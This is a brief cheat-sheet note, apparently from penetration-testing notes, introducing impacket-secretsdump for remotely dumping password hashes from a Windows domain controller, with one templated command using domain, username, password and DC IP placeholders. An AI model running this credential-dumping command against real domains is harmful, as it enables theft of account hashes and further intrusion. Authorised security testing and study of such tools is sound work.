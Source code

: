 # impacket-secretsdump - *de facto tool for remotely dumping hashes from a Domain Controller*

## Dump hashes from domain controller with user account and password

```bash
secretsdump.py <DNS domain name>/<username>:<password>@<domain controller IP>
```
